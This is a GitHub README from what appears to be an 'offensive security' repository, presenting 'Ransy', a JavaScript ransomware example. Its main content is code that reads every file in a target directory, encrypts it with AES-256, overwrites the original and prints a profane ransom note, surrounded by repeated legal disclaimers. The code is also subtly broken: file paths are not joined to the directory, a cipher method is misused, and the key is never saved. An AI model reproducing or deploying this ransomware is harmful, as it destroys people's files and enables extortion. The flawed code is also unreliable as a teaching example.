# Ransy - Code in JavaScript (Example)
##### RedTeam - Techniques for 'Offensive Security' by Volkan Sah - Simple Codings for Offensive Security (update 02/2023)

⚠️ Please note that exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges. Use this informations responsibly and only on networks you have permission to access. ⚠️

Ransomware attacks are one of the most destructive and malicious types of cyber threats, often resulting in significant financial losses and personal data theft. It is important to understand the mechanisms of ransomware attacks in order to protect yourself and your systems from these malicious threats.

This JavaScript code provides a simplified example of a ransomware attack and its underlying techniques. It is intended for educational and ethical hacking purposes only, and should not be used for any illegal or unethical activities. It is important to always abide by the law and use technology responsibly and ethically to promote positive outcomes for society.


## Example 
```javascript
// Ransomware code (for demonstration purposes only)
var fs = require('fs');
var crypto = require('crypto');

// Directory to target for file encryption
var targetDirectory = '/user/files';

// Once the encryption key is generated, the code will read all files in the target directory.
var encryptionKey = crypto.randomBytes(32).toString('hex');

// Read all files in the target directory
fs.readdirSync(targetDirectory).forEach(file => {
  // Skip directories
  if (fs.lstatSync(file).isDirectory()) return;

  // Read file data
  var data = fs.readFileSync(file);

  // Encrypt file data with encryption key
  var encryptedData = crypto
    .createCipher('aes-256-cbc', encryptionKey)
    .update(data, 'utf8', 'hex') +
    crypto.createCipher.final('hex');

  // writing encrypted data back to file
  // Finally, the code will display a ransom note to the user, demanding payment in exchange for the decryption key.

  fs.writeFileSync(file, encryptedData);
});

// Display ransom note to user
var ransomNote = `
Your files have been encrypted!
e.g go fuck off
`;

console.log(ransomNote);

```

##  Note
As technology continues to advance, it's more important than ever to protect ourselves and our systems from malicious attacks. With the rise of dangerous JavaScript techniques that can be executed through the browser, it's crucial to take proactive measures to safeguard your browsing experience. By utilizing browser add-ons such as NoScript and Privacy Badger, you can protect yourself from potential threats and enjoy a safer, more secure online experience. Remember, it's not just about protecting yourself - it's about promoting a culture of responsible technology use that benefits society as a whole

## Disclaimer
The developer of this script is not responsible for any misuse or damage caused by this tool. It is the user's responsibility to ensure that they have the necessary permissions to use this tool on their chosen networks. Only for educational and ethical hacking purposes only!

## Issues
Issues to this script are not accepted as it is intended for educational purposes only and not for production use.

## WARNING! AGAIN!
**⚠️ exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges. ⚠️**
### Thank you for your support!
- If you appreciate my work, please consider [becoming a 'Sponsor'](https://github.com/sponsors/volkansah), giving a :star: to my projects, or following me. 
### Copyright
- [VolkanSah on Github](https://github.com/volkansah)
- [Developer Site](https://volkansah.github.io)

### License
This project is licensed under the MIT - see the [LICENSE](LICENSE) file for details


